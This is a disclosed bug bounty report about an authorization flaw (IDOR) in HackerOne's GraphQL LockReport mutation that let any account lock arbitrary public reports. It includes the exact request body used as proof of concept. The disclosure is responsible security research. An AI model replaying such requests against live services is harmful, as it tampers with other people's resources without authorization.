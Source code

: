 # IDOR: Authorization Bypass in LockReport Mutation for public reports

## Report Details
- **Report ID**: 2139190
- **URL**: https://hackerone.com/reports/2139190
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-09-07T08:23:19.444Z
- **Disclosed**: 2023-09-13T05:55:59.597Z

## Reporter
- **Username**: kimingi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hello team, I can lock any public report. 


### Steps To Reproduce

1. Using your account, make this request. Notice its successful. Report id is the id of any public report.
```
{"operationName":"LockReport","variables":{"product_area":"reports","product_feature":"inbox","reportId":"Z2lkOi8vaGFja2Vyb25lL1JlcG9ydC8yMTIyNjcx"},"query":"mutation LockReport($reportId: ID!) {\n   lockReport(\n    input: {report_id: $reportId}\n  ) {\n was_successful\n    errors {\n      edges {\n        node {\n          id\n          error_code\n          field\n          message\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

POC report: 
https://hackerone.com/reports/2122671 (accidental, Stopped testing after that)



## Impact

Lock any report

## Attachments
No attachments
